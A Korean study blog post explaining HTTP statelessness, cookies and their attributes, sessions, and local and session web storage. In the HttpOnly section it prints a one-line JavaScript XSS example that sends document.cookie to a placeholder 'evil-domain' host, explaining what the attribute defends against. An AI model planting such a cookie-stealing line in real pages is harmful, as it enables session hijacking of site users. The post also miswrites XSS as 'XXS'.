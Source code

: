 ```yaml
---
title: (작성중) 쿠키, 세션 그리고 웹 스토리지
date: 2019-04-16 22:59:48
categories: 
  - Web
tags: 
  - study
---
```


쿠키, 세션, 웹 스토리지를 설명하기에 앞서 왜 사용하는지를 더 쉽게 이해하기 위해 HTTP 프로토콜의 특징을 알아보겠습니다.

### HTTP 프로토콜의 특징

- **비연결지향 (Connectionless)**: 클라이언트가 서버에게 Request를 보내고 서버가 클라이언트에게 Response를 보내면 접속을 종료한다.
- **무상태 (Stateless)**: 통신이 끝나면 상태 정보를 유지하지 않는다.

즉, 클라이언트의 로그인 정보나 브라우저에서 입력한 값 등이 페이지를 이동할 때 마다 초기화 되는 것입니다. 이러한 문제점을 해결하기 위해 데이터 저장에 사용하는 것이 **쿠키**, **세션** 그리고 **웹 스토리지**입니다.

### 쿠키

**쿠키**는 클라이언트 로컬에 저장되는 키와 값 형태의 작은 파일로 이름, 값, 만료 시간, 경로 정보가 들어있습니다.
**쿠키**는 주로 세 가지 목적을 위해 사용됩니다.  
- **세션 관리**: 서버에 저장해야 할 로그인, 장바구니, 게임 스코어 등의 정보 관리
- **사용자 맞춤**: 사용자가 선호하는 옵션이나 테마 등의 세팅
- **사용자 추적**: 사용자의 행동을 기록하고 분석하는 용도 

**Response Header**의 `Set-Cookie` 속성을 사용하면 클라이언트에 쿠키를 만들 수 있으며 만들어진 쿠키는 클라이언트가 따로 설정하지 않아도 브라우저가 **Request Header**에 넣어서 서버로 전송하게 됩니다.

서버의 HTTP 응답 헤더에서 쿠키를 설정합니다.

```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: name=hellozin
Set-Cookie: job=developer
```

이후 클라이언트에서 보내는 모든 요청에 브라우저는 `Cookie` 헤더를 통해 저장된 모든 쿠키를 전송합니다.

```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: name=hellozin; job=developer
```

이렇게 만들어진 쿠키는 **스코프**에 의해 크게 두가지로 나눌 수 있습니다.

- 클라이언트가 종료되면 삭제되는 휘발성 쿠키인 `Session Cookie`
- 클라이언트가 종료되어도 일정 기간 유지되는 `Permanent Cookie`

`Expires(날짜와 시간)` 혹은 `Max-Age(초)` 를 명시해 해당 날짜, 혹은 시간까지 쿠키를 유지할 수 있고 아무것도 명시하지 않을 경우 **Session Cookie** 가 됩니다.

```
Set-Cookie: name=hellozin; Expires=Wed, 21 Oct 2019 07:28:00 GMT;
```
> 명시된 만료일, 시간은 서버가 아닌 클라이언트를 기준으로 계산됩니다.

**Domain** 과 **Path** 속성은 쿠키의 스코프를 정의합니다.  
**Domain** 속성이 명시되면 해당 쿠키는 서브 도메인에도 포함되고 명시되지 않을 경우 현재 문서 위치의 호스트 일부를 기본값으로 합니다.

```
Domain=naver.com 의 쿠키가 포함되는 서브도메인의 예
- news.naver.com
- m.naver.com
```

**Path** 속성이 명시되면 해당 쿠키는 명시된 path가 포함된 서브 디렉토리에 포함됩니다.

```
Path=/docs 의 쿠키가 포함되는 서브디렉토리의 예
- /docs/Web/
- /docs/Web/HTTP
```

**Secure** 속성은 HTTPS 프로토콜로 암호화 된 요청일 경우에만 쿠키가 포함됩니다. 하지만 Secure 속성을 추가하더라도 안전하다고 볼 수 없기 때문에 민감한 정보는 쿠키에 추가해서는 안됩니다.

**HttpOnly** 속성은 자바스크립트의 `Document.cookie` API를 통 에 의해 쿠키가 접근되는 것을 방지합니다. 이를 통해 인증된 정보를 자바스크립트를 통해 탈취하는 Cross-site 스크립팅(XXS) 공격을 막는데 도움을 줍니다.

```
Set-Cookie: password=DontDoThat; Secure; HttpOnly
```

Cross-site 스크립팅(XXS) 공격의 예
```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

### 세션

세션이란 일정 시간동안 같은 브라우저로 부터 들어오는 일련의 요구를 하나의 상태로 보고 그 상태를 유지하는 기술입니다.

클라이언트가 **Request** 를 보내면 **Response** 에 `Set-Cookie` 를 통해 클라이언트의 **유일한 ID값**을 생성해 부여하고 이를 통해 사용자 정보는 안전한 서버에 존재하며 클라이언트와 서버 간에는 ID 값만을 전달해 보안 위협을 감소시켜 줍니다.

이 때 클라이언트에 저장되는 쿠키는 세션 종료 시 함께 소멸되는 "Memory Cookie" 타입을 가져 브라우저가 종료되면 세션과 관련된 쿠키도 삭제됩니다.

### 웹 스토리지

**웹 스토리지**는 서버가 아닌, 클라이언트에 데이터를 저장할 수 있도록 지원하는 **HTML5**의 새로운 기능입니다.

**쿠키**와 기능 자체는 유사하지만 **4KB** 밖에 저장하지 못하는 쿠키와 다르게 **웹 스토리지**는 약 **5MB** 까지 저장공간을 이용할 수 있습니다. 웹 스토리지의 최신 스펙은 https://www.w3.org/TR/webstorage/ 에서 확인할 수 있습니다.

웹 스토리지에는 **로컬 스토리지(local Storage)** 와 **세션 스토리지(session Storage)** 가 있습니다. 로컬 스토리지와 세션 스토리지는 각각의 고유한 특성이 있으며, 프로그래머의 필요에 따라 선택적으로 사용됩니다. 다음 항목에서는 로컬 스토리지와 세션 스토리지에 대한 각각의 특성에 대해 설명합니다.

#### 로컬 스토리지

**로컬 스토리지**는 브라우저 자체에 **반영구적**으로 데이터를 저장하며, 브라우저를 종료해도 데이터가 유지됩니다. 다만 **도메인(domain)이 다른 경우** 로컬 스토리지에 접근할 수 없습니다. 예를 들어 `naver.com` 로컬 스토리지에서 저장한 데이터는 `google.com` 에서 접근할 수 없는 것과 같습니다.

#### 세션 스토리지

**세션 스토리지**는 각 세션마다 데이터가 **개별적으로 저장**되며 로컬 스토리지와 다르게 세션을 종료하면 데이터가 **자동으로 제거**되며 같은 도메인이라도 **세션이 다르면** 데이터에 접근할 수 없습니다.

출처: https://untitledtblog.tistory.com/47 [Untitled]

### Reference

- [HTTP 쿠키 / MDN](https://developer.mozilla.org/ko/docs/Web/HTTP/Cookies)
- [쿠키 옵션 - path & domain / 생활코딩](https://opentutorials.org/course/3387/21745)
- [쿠키와 세션의 차이, 용도, 사용법 / 기본기를 쌓는 정아마추어 코딩블로그](https://jeong-pro.tistory.com/80)
- [웹 스토리지 (Web Storage)의 특성과 사용법 / Bool](https://untitledtblog.tistory.com/47)